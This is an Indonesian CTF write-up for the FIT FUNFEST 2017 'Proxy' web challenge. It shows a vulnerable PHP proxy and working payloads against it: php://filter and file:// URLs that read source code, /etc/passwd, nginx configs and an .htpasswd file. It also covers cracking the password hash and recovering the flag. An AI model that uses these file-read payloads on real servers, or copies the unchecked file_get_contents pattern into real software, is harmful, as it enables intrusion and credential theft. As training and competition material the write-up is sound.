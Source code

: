 ```yaml
---
layout: post
title: 'FIT FUNFEST 2017 : Proxy'
description: Writeup Proxy FIT FUNFEST CTF
modified: 2017-03-16
date: 2017-03-16
category: ctf
tags: [fitfunfest]
imagefeature: /images/fit-funfest.png
mathjax: false
chart: null
comments: true
featured: true
published: true
private: 'false'
---
```



### Soal

```
http://128.199.66.146:12121/proxy/
```

### Solusi

Diberikan website seperti layanan proxy kita bisa mengakses website lain melalui
layanan tersebut kemudian kita memanfaatkan Wrappers yang tidak di blacklist
untuk membaca file config dan menemukan folder secret yang di authentikasi
dengan Basic HTTP Authentication kami melakukan decrpyt password .htpasswd
yang di gunakan algoritma {SHA} kemudian kami mengauthentikasi dan
mendapatkan flag

Setelah melakukan analisa kepada layanan yang tersedia yaitu proxy untuk
membuka website di input field nya ada placeholder http atau https tapi ternyata ada beberapa wrappers yang masih bisa di gunakan karena tidak di disable atau di blacklist. Pertama kita bisa mendapatkan source code layanan proxy dalam base64 dan melakukan decode untuk membaca source code aslinya dengan command

`curl http://128.199.66.146:12121/proxy/?url=php://filter/convert.base64-encode/resource=index.php | base64 -d > index.php`

```php
<?php
error_reporting(0);
if (isset($_GET['url'])) {
$url = $_GET['url'];
if (filter_var($url, FILTER_VALIDATE_URL) === FALSE) {
die('Not a valid URL');
}
$content = file_get_contents($url);
die($content);
}
?>
<header>
<title>Proxy</title>
<link
href='http://fonts.googleapis.com/css?family=Open+Sans+Condensed:300'
rel='stylesheet' type='text/css'>
<style type="text/css">
.form-style-8{
font-family: 'Open Sans Condensed', arial, sans;
width: 500px;
padding: 30px;
background: #FFFFFF;
margin: 50px auto;
box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-moz-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-webkit-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
}
.form-style-8 h2{
background: #4D4D4D;
text-transform: uppercase;
font-family: 'Open Sans Condensed', sans-serif;
color: #797979;
font-size: 18px;
font-weight: 100;
padding: 20px;
margin: -30px -30px 30px -30px;}
.form-style-8 input[type="text"],
.form-style-8 input[type="date"],
.form-style-8 input[type="datetime"],
.form-style-8 input[type="email"],
.form-style-8 input[type="number"],
.form-style-8 input[type="search"],
.form-style-8 input[type="time"],
.form-style-8 input[type="url"],
.form-style-8 input[type="password"],
.form-style-8 textarea,
.form-style-8 select
{
box-sizing: border-box;
-webkit-box-sizing: border-box;
-moz-box-sizing: border-box;
outline: none;
display: block;
width: 100%;
padding: 7px;
border: none;
border-bottom: 1px solid #ddd;
background: transparent;
margin-bottom: 10px;
font: 16px Arial, Helvetica, sans-serif;
height: 45px;
}
.form-style-8 textarea{
resize:none;
overflow: hidden;
}
.form-style-8 input[type="button"],
.form-style-8 input[type="submit"]{
-moz-box-shadow: inset 0px 1px 0px 0px #45D6D6;
-webkit-box-shadow: inset 0px 1px 0px 0px #45D6D6;
box-shadow: inset 0px 1px 0px 0px #45D6D6;
background-color: #2CBBBB;
border: 1px solid #27A0A0;
display: inline-block;
cursor: pointer;
color: #FFFFFF;
font-family: 'Open Sans Condensed', sans-serif;font-size: 14px;
padding: 8px 18px;
text-decoration: none;
text-transform: uppercase;
}
.form-style-8 input[type="button"]:hover,
.form-style-8 input[type="submit"]:hover {
background:linear-gradient(to bottom, #34CACA 5%, #30C9C9 100%);
background-color:#34CACA;
}
</style>
</header>
<body>
<div class="form-style-8">
<h2>PROXY</h2>
<form>
<input type="text" name="url" placeholder="http:// or https://" />
</form>
</div>
</body>
```

Kurang lebih source code tersebut seperti di atas 

Kemudian kami mencoba mencari cara untuk mendapatkan Remote Code Injection
karena kami belum menemukan lokasi flag berada.
Kami juga mencoba membaca beberapa file berikut dengan wrappers file://

```
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/passwd
http://128.199.66.146:12121/proxy/index.php?url=file:///home/web-x/.bash_history
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/hosts
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/default
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/web-x
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/web-y
```

Pada file /etc/nginx/sites-available/default kami melihat ada directory rahasia yang di
proteksi dengan ​ HTTP Basic Authentication

```
location /secret_page_uksw/ {
try_files $uri $uri/ =404;
autoindex on;
auth_basic "Restricted Content";
auth_basic_user_file /etc/nginx/.htpasswd;
}
```

Kita baca file .htpasswd nya dengan url berikut

`http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/.htpasswd`

isinya seperti ini 

`fit-uksw:{SHA}NABfMvw51MY+i1z+THOgpy9oysc=`

![dectypt-sha1-htpasswd.png](/images/dectypt-sha1-htpasswd.png)


Kemudian kami crack password yang ada pada .htpasswd tersebut sehingga di
temukan plain text dari password adalah “indonesia45”
Selanjutnya kita cari di mana folder /secret_page_uksw/ berada pertama coba di
http://128.199.66.146:12121/secret_page_uksw/ namun masih not found, kami
coba baca lagi konfigurasi nginx nya ternyata port nya ngak di custom, dia
menggunakan port default yang terletak pada http://128.199.66.146/secret_page_uksw/ Kemudian kami masukan username danpassword untuk basic authentication **fit-uksw:indonesia45**

![secret-page-proxy-flag.png]({{site.baseurl}}/images/secret-page-proxy-flag.png)

**FIT2017{not_only_know_web_bug_but_also_server_config}**
